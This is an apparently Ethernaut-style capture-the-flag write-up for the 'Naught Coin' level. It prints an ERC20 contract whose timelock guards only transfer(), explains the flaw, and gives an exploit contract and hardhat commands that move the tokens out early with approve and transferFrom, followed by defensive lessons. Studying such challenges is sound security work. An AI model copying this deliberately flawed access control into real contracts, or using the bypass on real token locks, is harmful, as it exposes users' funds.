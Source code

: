 # Level 15: Naught Coin Challenge

## Challenge Description

This challenge involves an ERC20 token called NaughtCoin that has a timelock restricting token transfers. As a token holder, you're not supposed to be able to transfer your tokens until 10 years have passed. However, there's a vulnerability in the implementation. The goal is to transfer all tokens from the player account before the timelock expires.

## Contract Location

The challenge contract is located at:
```
/contracts/level-15-naught-coin/NaughtCoin.sol
```

## Understanding the Challenge

The `NaughtCoin` contract inherits from the OpenZeppelin ERC20 implementation and adds a timelock mechanism to prevent the player from transferring tokens for 10 years. Here's the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

### Key Observations

1. The contract inherits from OpenZeppelin's ERC20 implementation.
2. It overrides the `transfer` function and adds a `lockTokens` modifier.
3. The `lockTokens` modifier prevents the player from transferring tokens until the timelock expires (10 years).
4. However, the contract only overrides the `transfer` function, but not other ERC20 functions that can move tokens.

## Winning Strategy

The vulnerability lies in the fact that the contract only restricts the `transfer` function but not other token movement functions from the ERC20 standard, such as `transferFrom`.

To exploit this:

1. First, approve a separate account or contract to spend tokens on your behalf using the `approve` function.
2. Then, use `transferFrom` to move the tokens from the player's account to another address.

Since the `transferFrom` function is inherited from the ERC20 implementation and isn't overridden with the timelock modifier, it can be used to bypass the timelock restriction entirely.

## Hint for Thinking

Ask yourself:
* What methods can move tokens in the ERC20 standard?
* Which of those methods are restricted by the timelock in this contract?
* How can you use the unrestricted methods to bypass the timelock?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### Understanding the Vulnerability

The NaughtCoin contract only restricts the `transfer` function with the timelock. However, as an ERC20 token, it inherits several other functions from OpenZeppelin's implementation:

1. `transfer`: Directly transfers tokens from the caller to a recipient (restricted by timelock)
2. `transferFrom`: Transfers tokens from one address to another using an allowance mechanism (not restricted)
3. `approve`: Approves another address to spend tokens on behalf of the caller (not restricted)

Since only the `transfer` function is overridden with the timelock, we can use the combination of `approve` and `transferFrom` to move tokens without triggering the timelock.

### Exploit Contract

The solution involves creating a contract that uses `transferFrom` to move tokens:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin {
    function balanceOf(address account) external view returns (uint256);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function player() external view returns (address);
}

contract NaughtCoinExploit {
    address public naughtCoinAddress;
    INaughtCoin public naughtCoin;
    address public owner;

    constructor(address _naughtCoinAddress) {
        naughtCoinAddress = _naughtCoinAddress;
        naughtCoin = INaughtCoin(naughtCoinAddress);
        owner = msg.sender;
    }
    
    function bypassTimeLock(address _to) external {
        require(msg.sender == owner, "Only owner can bypass the timelock");
        
        address player = naughtCoin.player();
        uint256 playerBalance = naughtCoin.balanceOf(player);
        
        // Transfer all tokens from the player to the specified address
        naughtCoin.transferFrom(player, _to, playerBalance);
    }
    
    function checkSuccess() external view returns (bool) {
        address player = naughtCoin.player();
        return naughtCoin.balanceOf(player) == 0;
    }
}
```

### Execution Steps

1. **Deploy the NaughtCoin Contract**

   ```shell
   npx hardhat deploy --tags naught-coin --network sepolia
   ```

2. **Deploy the Exploit Contract**

   ```shell
   TARGET_ADDRESS=0xYourNaughtCoinAddress npx hardhat deploy --tags naught-coin-solution --network sepolia
   ```

3. **Execute the Exploit**

   First, the player must approve the exploit contract to spend tokens:

   ```shell
   EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xNaughtCoinAddress npx hardhat run scripts/level-15-naught-coin/execute-naught-coin-exploit.ts --network sepolia
   ```

4. **Verify Success**

   ```shell
   EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xNaughtCoinAddress npx hardhat run scripts/level-15-naught-coin/verify-exploit-success.ts --network sepolia
   ```

## Key Insights

1. **Incomplete Access Control**: The contract only restricts one function (`transfer`) but not the complete set of functions that can move tokens.

2. **ERC20 Standard Knowledge**: Understanding the ERC20 standard and its functions is crucial. The token can be moved not just with `transfer` but also with `transferFrom`.

3. **Inheritance Considerations**: When overriding functions from a parent contract, it's important to consider all functions that might perform similar operations.

4. **Defense in Depth**: For critical restrictions like timelocks, apply the restriction at multiple levels or consider using a more comprehensive approach such as overriding all token movement functions or using OpenZeppelin's TokenTimelock.
